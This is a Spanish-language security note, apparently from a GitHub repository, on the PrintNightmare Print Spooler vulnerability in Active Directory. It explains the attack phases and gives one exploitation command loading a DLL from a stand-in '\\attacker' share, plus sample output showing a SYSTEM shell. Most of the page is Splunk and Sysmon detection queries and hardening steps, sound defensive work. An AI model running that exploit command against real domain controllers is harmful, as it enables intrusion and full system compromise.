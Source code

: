 # 🛑 PrintNightmare en Active Directory

---

## 📝 ¿Qué es PrintNightmare?

| Concepto      | Descripción                                                                                                 |
|---------------|------------------------------------------------------------------------------------------------------------|
| **Definición**| PrintNightmare es un conjunto de vulnerabilidades críticas en el servicio Print Spooler de Windows que permite ejecución remota de código y/o escalada de privilegios. |
| **Requisito** | El atacante debe tener acceso a la red y el Print Spooler debe estar activo en el sistema objetivo (servidores, estaciones, DCs).                |

---

## 🛠️ ¿Cómo funciona el ataque?

| Fase             | Acción                                                                                         |
|------------------|------------------------------------------------------------------------------------------------|
| **Conexión**     | El atacante se conecta al servicio Print Spooler vía RPC/SMB, normalmente usando autenticación de dominio.|
| **Carga**        | Carga un controlador de impresora (DLL) malicioso, abusando de la función AddPrinterDriverEx.  |
| **Ejecución**    | El controlador malicioso se ejecuta como SYSTEM, permitiendo RCE o escalada de privilegios.    |
| **Persistencia** | Puede usarse para mantener acceso privilegiado si no se parchea o desactiva el servicio.        |

---

## 💻 Ejemplo práctico

```bash
# Uso de herramienta pública para explotar PrintNightmare:
python3 CVE-2021-34527.py <DC_IP> <'DOMAIN/user:pass'> '\\attacker\evil.dll'
```

```
[*] Connecting to the target Print Spooler service...
[*] Uploading malicious DLL via AddPrinterDriverEx...
[*] Triggering DLL execution as SYSTEM...
[+] SYSTEM shell obtained!
```

---

## 📊 Detección en logs y SIEM

| Campo clave                   | Descripción                                                                 |
|-------------------------------|----------------------------------------------------------------------------|
| **EventCode = 808, 316, 307** | Eventos de creación/carga de impresora o controlador en Print Service.      |
| **Proceso spoolsv.exe**       | Procesos hijackeados o DLLs cargadas desde rutas no estándar.              |
| **Cambios en registro Print** | Modificación de claves de registro asociadas a drivers de impresora.        |
| **Sysmon ID 7 / ID 1**        | Carga de DLLs sospechosas o ejecución de comandos fuera de contexto.       |

### Query Splunk básica

```splunk
index=dc_logs sourcetype=WinEventLog:Microsoft-Windows-PrintService/Operational (EventCode=808 OR EventCode=316 OR EventCode=307)
| table _time, ComputerName, UserID, Param1, Param2
```

---

## 🔎 Queries completas para más investigación

### 1. Detección de cargas de drivers desde rutas inusuales

```splunk
index=sysmon EventCode=7 Image="*spoolsv.exe" NOT (ImageLoaded="C:\\Windows\\System32\\*")
| table _time, Computer, Image, ImageLoaded, User
```

### 2. Creación de impresoras/controladores fuera de horario o por usuarios no admins

```splunk
index=dc_logs sourcetype=WinEventLog:Microsoft-Windows-PrintService/Operational (EventCode=316 OR EventCode=808)
| where UserID!="S-1-5-18"
| stats count by _time, ComputerName, UserID, Param1
```

### 3. Cambios en el registro Print Spooler

```splunk
index=sysmon EventCode=13 TargetObject="*Print*"
| table _time, Computer, TargetObject, Details, User
```

### 4. Ejecución de comandos SYSTEM anómalos vía spoolsv.exe

```splunk
index=sysmon EventCode=1 ParentImage="*spoolsv.exe"
| table _time, Computer, CommandLine, User
```

### 5. Tráfico RPC/SMB anómalo hacia spoolsv.exe

```splunk
index=network_logs dest_port=445 OR dest_port=139 process="spoolsv.exe"
| stats count by src_ip, dest_ip, process
| where count > 10
```

---

## 🦾 Hardening y mitigación

| Medida                                           | Descripción                                                                                 |
|--------------------------------------------------|--------------------------------------------------------------------------------------------|
| **Parchear sistemas**                            | Instala los parches más recientes de Microsoft para PrintNightmare y variantes.             |
| **Desactivar Print Spooler donde no sea necesario** | `Stop-Service Spooler` y `Set-Service Spooler -StartupType Disabled` en DCs y servidores críticos.  |
| **Limitar instalación de drivers**               | GPO: “Allow Print Spooler to accept client connections” y “Package Point and Print - Approved Servers”. |
| **Monitorización continua**                      | Vigilar logs de PrintService y Sysmon para detectar cargas de DLLs/controladores anómalos.  |
| **Bloquear tráfico SMB innecesario**             | Restringir puertos 445/139 a lo mínimo posible entre estaciones y servidores.               |
| **Auditoría y alertas**                          | Configurar alertas SIEM para eventos Print Spooler críticos y cargas de DLL no autorizadas. |

---

## 🧑‍💻 ¿Cómo revisar si Print Spooler está activo y expuesto?

```powershell
Get-Service -Name Spooler
Get-Printer
```
O comprobar puertos abiertos y sesiones RPC/SMB activas en DCs.

---

## 📚 Referencias

- [Microsoft Security Advisory CVE-2021-34527](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527)
- [PrintNightmare - HackTricks](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/printnightmare)
- [Print Spooler Service Guidance - Microsoft Docs](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/print-spooler-security-guidance)

